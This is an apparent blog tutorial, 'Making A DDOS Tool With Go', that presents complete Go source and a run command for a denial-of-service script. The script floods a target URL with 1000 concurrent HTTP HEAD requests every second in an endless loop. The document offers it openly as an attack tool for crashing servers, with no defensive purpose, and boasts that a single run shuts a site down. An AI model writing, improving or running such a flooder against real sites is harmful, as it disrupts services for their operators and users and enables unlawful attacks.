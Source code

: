# Making A DDOS Tool With Go

Hi there today I'm going to make a simple tool for DDOS attack. And it's fully writen in Golang. No additional plugin required.

## Our Attack Map:

We are going to make 1000 or more concurrent requests at once. If the server is not enough strong, it will crash within 10-15 seconds after a single attack!

## Let's Code It:

Let's dive into code, but I'm going to break the code into pieces first.

### Making A Request:

The `Request` function will send a request to the server.

```Go
func Request(uri string){
    http.Head(uri)
}
```

The `http.Head(uri)` recieves only headers from a url. We don't need the content of the page. So we're not going to process further things.

## Attaaaaaaaaack!

Now we need to put the `Request` function in a loop.

```Go
func main(){
    target := os.Args[1] // the target site
    for {
        fmt.Print(".")
        for i := 0; i < 1000; i++ {
            go Request(target)
        }
        // need some rest
        time.Sleep(time.Second)
    }
}
```

Here we're sending 1000 requests to the server in every second.

And it's that much simple!

## Full Code:

```Go
package main

import (
    "fmt"
    "net/http"
    "os"
    "time"
)

func main() {
    target := os.Args[1] // the target site
    for {
        fmt.Print(".")
        for i := 0; i < 1000; i++ {
            go Request(target)
        }
        // need some rest
        time.Sleep(time.Second)
    }
}

func Request(uri string) {
    http.Head(uri)
}
```

Now save it and run with 

```TXT
$ go run main.go http://example.com
```
Now wait for 30-40 seconds after getting the `...` like output!

Voila!

We've succesfully shutted down a server by a single attack :v
